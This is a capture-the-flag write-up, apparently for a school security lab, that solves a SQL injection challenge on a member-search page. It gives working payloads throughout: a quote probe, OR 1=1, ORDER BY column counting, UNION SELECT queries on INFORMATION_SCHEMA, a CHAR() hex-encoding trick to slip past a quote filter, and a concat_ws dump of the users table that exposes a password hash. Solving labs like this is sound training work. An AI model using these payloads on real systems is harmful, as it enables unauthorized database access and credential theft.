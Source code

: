 

in page : http://machineURL/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 
```OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```

notice that we have encoded the users as CHAR(0x75, 0x73, 0x65, 0x72, 0x73)

that is because whenever we use some kind of quoted input we get a database error, that is propably due the the website implementing some security michanism

with that we get all the users coulmn names so we can construct a query to get all the data all the users

and we do that using this command : 
```1 union select null, concat_ws(CHAR(124),user_id, first_name, town, country, planet, Commentaire, countersign) from users
```
that gives us all the column values in the second column (surname) separated by | (char(124))

```5|Flag|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

you decrypt 5ff9d0165b4f92b14994e5c685cdce28 and you get FortyTwo
lowering all the letters and sh256 on it and we get the flag


